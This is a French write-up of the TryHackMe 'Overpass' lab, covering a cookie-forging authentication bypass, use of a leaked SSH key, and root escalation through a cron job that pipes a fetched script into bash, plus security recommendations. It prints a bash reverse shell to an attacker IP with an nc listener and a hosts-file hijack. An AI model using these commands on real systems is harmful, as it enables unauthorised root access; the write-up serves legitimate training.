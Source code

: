 # TryHackMe – Overpass

> Write‑up par **Saad Idrissi**

---

## Table des matières

- [Présentation générale](#présentation-générale)
- [Étape 1 : Reconnaissance](#étape-1--reconnaissance)
  - [Scan réseau](#scan-réseau)
  - [Analyse du site web](#analyse-du-site-web)
- [Étape 2 : Accès initial via contournement d’authentification](#étape-2--accès-initial-via-contournement-dauthentification)
  - [Vulnérabilité détectée](#vulnérabilité-détectée)
  - [Extraction de la clé SSH](#extraction-de-la-clé-ssh)
- [Étape 3 : Escalade de privilèges](#étape-3--escalade-de-privilèges)
  - [Analyse des indices](#analyse-des-indices)
  - [Exploitation](#exploitation)
- [Résultat final](#résultat-final)
- [Recommandations de sécurité](#recommandations-de-sécurité)
- [Conclusion](#conclusion)

---

## Présentation générale

La room **Overpass** est une machine de difficulté **Intermediate** sur [TryHackMe](https://tryhackme.com/room/overpass). Elle simule un gestionnaire de mots de passe développé par une équipe d’étudiants.\
L’objectif est d’identifier et d’exploiter les vulnérabilités pour obtenir dans l’ordre :

1. un accès utilisateur (`user.txt`) ;
2. une escalade de privilèges vers `root` (`root.txt`).

Ce write‑up décrit la méthodologie appliquée, les étapes de reconnaissance, l’exploitation des vulnérabilités ainsi que des recommandations pour corriger ces failles.

---

## Étape 1 : Reconnaissance

### Scan réseau

La première étape consiste à scanner la machine avec **Nmap** afin d’identifier les ports ouverts et les services exposés.

```bash
nmap -sV -T5 -O 10.10.139.53
```

**Résultats clés :**

| Port | Service | Version       |
| ---- | ------- | ------------- |
| 22   | SSH     | OpenSSH 8.0   |
| 80   | HTTP    | Apache 2.4.37 |

### Analyse du site web

Le port 80 héberge l’application web **Overpass**, un gestionnaire de mots de passe.

Avec un outil de fuzzing tel que **Gobuster**, plusieurs chemins intéressants sont découverts, notamment `/admin` et `/downloads`.

Une inspection du JavaScript côté client (`login.js`) révèle une logique d’authentification vulnérable.

---

## Étape 2 : Accès initial via contournement d’authentification

### Vulnérabilité détectée

Le fichier `login.js` montre que la session repose sur un cookie `SessionToken` défini directement à partir de la réponse serveur, sans validation supplémentaire.

En forçant la valeur de ce cookie dans le navigateur il est possible d’outrepasser l’authentification et d’accéder à `/admin` sans identifiants :

```javascript
// Dans la console du navigateur
Cookies.set("SessionToken", "CeQueTuVeux");
window.location = "/admin";
```

### Extraction de la clé SSH

La page `/admin` propose en téléchargement une **clé SSH privée** associée à l’utilisateur `james`.

```bash
chmod 600 james_rsa
ssh -i james_rsa james@10.10.139.53
```

Une fois connecté, le flag `user.txt` peut être récupéré depuis le répertoire personnel de `james`.

---

## Étape 3 : Escalade de privilèges

### Analyse des indices

Dans la session `james`, un fichier `todo.txt` mentionne un processus de build automatisé.\
L’analyse des crons affiche la ligne suivante :

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Le **cron** télécharge donc chaque minute un script distant et l’exécute avec les privilèges **root** sans contrôle d’intégrité.

### Exploitation

En redirigeant le nom de domaine `overpass.thm` vers notre machine (modification locale de `/etc/hosts`), nous prenons le contrôle du script récupéré.

```bash
# /etc/hosts
10.21.208.96    overpass.thm
```

Nous hébergeons un script malveillant lançant un reverse shell root :

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.208.96/4444 0>&1 &
```

Puis nous écoutons sur le port 4444 :

```bash
nc -lvnp 4444
```

Lorsque `cron` exécute le script, un shell root est établi et le flag `root.txt` devient accessible.

---

## Résultat final

```bash
root@overpass:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Validation stricte des sessions**\
   Ne jamais se fier uniquement à des cookies manipulables côté client.
2. **Sécurisation des cron jobs**\
   N’exécuter aucun script distant sans vérification d’intégrité (hash, signature).
3. **Contrôle des résolutions DNS locales**\
   Restreindre les modifications d’`/etc/hosts` et surveiller les anomalies DNS.
4. **Gestion sécurisée des clés SSH**\
   Éviter l’exposition de clés privées via une interface web et appliquer le principe du moindre privilège.
5. **Supervision et alertes**\
   Mettre en place une détection d’exécution de scripts distants et de modifications non autorisées.

---

## Conclusion

Cette room démontre comment des failles simples, combinées, permettent de compromettre une infrastructure complète. Elle met en évidence l’importance :

- d’une défense en profondeur ;
- de processus de développement sécurisés ;
- d’une supervision active des systèmes.

> **TLDR**\
> Un simple contournement d’authentification a ouvert la voie à l’exfiltration d’une clé SSH, puis à l’escalade root via un cron non sécurisé.

---

**Auteur :** Saad Idrissi

